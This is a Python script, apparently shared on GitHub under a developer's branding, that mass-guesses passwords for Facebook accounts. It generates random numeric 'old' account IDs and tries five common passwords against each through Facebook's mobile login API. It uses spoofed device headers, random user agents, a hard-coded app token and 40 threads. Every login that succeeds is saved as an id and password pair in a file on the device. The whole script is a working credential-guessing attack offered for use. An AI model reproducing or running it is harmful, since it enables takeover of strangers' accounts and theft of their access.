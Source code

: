 #----------------------------[IMPORT/MODULE]-----------------------------------#
import requests,bs4,json,os,sys,uuid,random,datetime,time,re
import urllib3,rich,base64
from rich.markdown import Markdown as mark
from rich.columns import Columns as col
from rich import pretty
from rich.text import Text as tekz
from time import localtime as lt
import os,time,random,json,sys,datetime
try:
    import requests
except:
    os.system("pip3 install requests")
    import requests 
from concurrent.futures import ThreadPoolExecutor as ThreadPool
#-----------------------------[LINE]-----------------------------------#
def lin():
	print("\x1b[1;97m━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━")
#----------------------------[DATE]-----------------------------------#
dic = {'1':'January','2':'February','3':'March','4':'April','5':'May','6':'June','7':'July','8':'August','9':'September','10':'October','11':'November','12':'December'}
dic2 = {'01':'January','02':'February','03':'March','04':'April','05':'May','06':'June','07':'July','08':'August','09':'September','10':'October','11':'November','12':'Devember'}
tgl = datetime.datetime.now().day
bln = dic[(str(datetime.datetime.now().month))]
thn = datetime.datetime.now().year
okc = 'OK-'+str(tgl)+'-'+str(bln)+'-'+str(thn)+'.txt'
cpc = 'CP-'+str(tgl)+'-'+str(bln)+'-'+str(thn)+'.txt'
date = str(tgl)+'-'+str(bln)
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
#----------------------------[COLOR/CODE]-----------------------------------#
A = '\x1b[1;97m';R = '\x1b[38;5;196m';Y = '\033[1;33m';G = '\x1b[38;5;46m';B = '\x1b[38;5;8m';G1 = '\x1b[38;5;48m';G2 = '\x1b[38;5;47m';G3 = '\x1b[38;5;48m';G4 = '\x1b[38;5;49m';G5 = '\x1b[38;5;50m';X = '\33[1;34m';X1 = '\x1b[38;5;14m';X2 = '\x1b[38;5;123m';X3 = '\x1b[38;5;122m';X4 = '\x1b[38;5;86m';X5 = '\x1b[38;5;121m';S = '\x1b[1;96m';M = '\x1b[38;5;205m'
#----------------------------[USER/AGENT]-----------------------------------#
def ua():
    rr=random.randint
    aZ=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    zA=random.choice(['a','b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z'])
    rx=random.randrange(1, 999)
    xx=f"Mozilla/5.0 (Wi    ndows NT 10.0; {str(rr(9,11))}; Win64; x64){str(aZ)}{str(rx)}{str(aZ)}) AppleWebKit/537.36 (KHTML, like Gecko){str(rr(99,149))}.0.{str(rr(4500,4999))}.{str(rr(35,99))} Chrome/{str(rr(99,175))}.0.{str(rr(0,5))}.{str(rr(0,5))} Safari/537.36"
    return xx
#----------------------------[LOGO]-----------------------------------#
logo = (f"""        
   \033[0;32m   
\033[1;34m  _______  _______  _                 _______  _______ 
\033[1;35m(  ____ \(  ___  )| \    /\|\     /|(  ____ )(  ___  )
\033[1;39m| (    \/| (   ) ||  \  / /| )   ( || (    )|| (   ) |
\033[1;93m| (_____ | (___) ||  (_/ / | |   | || (____)|| (___) |
\033[1;35m(_____  )|  ___  ||   _ (  | |   | ||     __)|  ___  |
 \033[1;38m   ) || (   ) ||  ( \ \ | |   | || (\ (   | (   ) |
\033[1;36m/\____) || )   ( ||  /  \ \| (___) || ) \ \__| )   ( |
\033[1;54m\_______)|/     \||_/    \/(_______)|/   \__/|/     \|                                                                                                                                                                                                                   
\x1b[1;91m═━═━═━═━═━━═━═━══━═━═━═━═━━═━═━══━═━═━══━═━═━═
\033[1;92m[\033[1;92m\033[1;34m✔\033[1;92m]DEVELOPER      \033[1;91m\033[1;34m: \033[1;92  ARUSHI 
[\033[1;92m\033[1;34m✔\033[1;92m]FACEBOOK       \033[1;91m\033[1;34m: \033[1;92m AARUSHI RAJPUT 
[\033[1;92m\033[1;34m✔\033[1;92m]TOOL           \033[1;91m\033[1;34m: \033[1;92mOLD ID
[\033[1;92m\033[1;34m✔\033[1;92m]STATUS         \033[1;91m\033[1;34m: \033[1;92m𝙵𝚁𝙴𝙴 
[\033[1;92m\033[1;34m✔\033[1;92m]VERSION        \033[1;91m\033[1;34m: \033[1;35m[\033[1;32m𝚅1\033[1;35m]
\x1b[1;92m═━═━═━═━═━━═━═━══━═━═━═━═━━═━═━══━═━═━══━═━═━═""")
#----------------------------[MAIN/DEF]-----------------------------------#
def main():
    user=[]
    os.system("clear")
    print(logo)
    print(f'\x1b[38;5;8m\x1b[38;5;8m(\x1b[1;97m~\x1b[38;5;8m) \033[1;37mEXAMPLE   : \033[1;37m10000 | 20000 | 90000')
    lin()
    limit=input("\x1b[38;5;8m(\x1b[1;97m~\x1b[38;5;8m) \x1b[1;97mCHOICE    : ")
    lin()
    os.system('clear')
    print(logo)
    print("\x1b[38;5;8m(\x1b[1;97m1\x1b[38;5;8m) \x1b[1;97mMETHOD ~ (2010-2009")
    lin()
    ask=input("\x1b[38;5;8m(\x1b[1;97m~\x1b[38;5;8m) \x1b[1;97mCHOICE    : ")
    lin()
    if ask in["1"]:
        star="10000"
        for i in range(int(limit)):
            data=str(random.choice(range(1000000000,1999999999)))
            user.append(data)
    else:
        star="1000"
        for i in range(int(limit)):
            data=str(random.choice(range(1000000000,1999999999)))
            user.append(data)    
    with ThreadPool(max_workers=40) as MrDevilEx:
        os.system('clear')
        print(logo)
        print(f'\x1b[38;5;8m(\x1b[1;97m~\x1b[38;5;8m) \x1b[38;5;47mTOTAL ID : {limit} \x1b[38;5;8m(\x1b[1;97m~\x1b[38;5;8m) \x1b[38;5;47mMETHOD : \x1b[38;5;86m{ask}')
        print(f'\x1b[38;5;8m(\x1b[1;97m~\x1b[38;5;8m) \x1b[38;5;47mIF NO RESULT \x1b[38;5;8m[\x1b[38;5;47mON\x1b[1;97m/\x1b[38;5;47mOF\x1b[38;5;8m]  \x1b[38;5;47mAIRPLANE MODE')
        lin()
        for mal in user:
            uid=star+mal
            MrDevilEx.submit(login,uid)    
loop=0
oks=[]
def login(uid):
    global oks,loop
    Session=requests.session()
    try:
        sys.stdout.write(f"\r\x1b[38;5;8m(\x1b[1;97m{date}\x1b[38;5;8m) \x1b[38;5;8m(\x1b[1;97m{loop}\x1b[38;5;8m) \x1b[38;5;8m(\x1b[1;97m{len(oks)}\x1b[38;5;8m)")
        sys.stdout.flush()
        for pw in ["123456789","1234567","12345678","123456","111111"]:
            headers = {
            "x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
            "x-fb-sim-hni": str(random.randint(20000, 40000)), 
            "x-fb-net-hni": str(random.randint(20000, 40000)), 
            "x-fb-connection-quality": "EXCELLENT",
            "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
            "user-agent": ua(), 
            "content-type": "application/x-www-form-urlencoded", 
            "x-fb-http-engine": "Liger"}
            rp=Session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers).json()
            if "session_key" in rp:
                print(f"\r\r{G} AARUSHI 😘OK {A}➤ {G}{uid} {A}•{G} {pw}")
                open("/sdcard/PARI-OLD-OK","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break 
            elif "www.facebook.com" in rp["error_msg"]:
                print(f"\r\r{G} AARUSHI🙈OK {A}➤ {G}{uid} {A}•{G} {pw}")
                open("/sdcard/PARI-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            elif "Please Confirm Email" in str(rp):
                print(f"\r\r{G}VISHAL-OK {A}➤ {G}{uid} {A}•{G} {pw}")
                open("/sdcard/VISHAL-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except:pass
main()
#----------------------------[CODE/END]-----------------------------------#
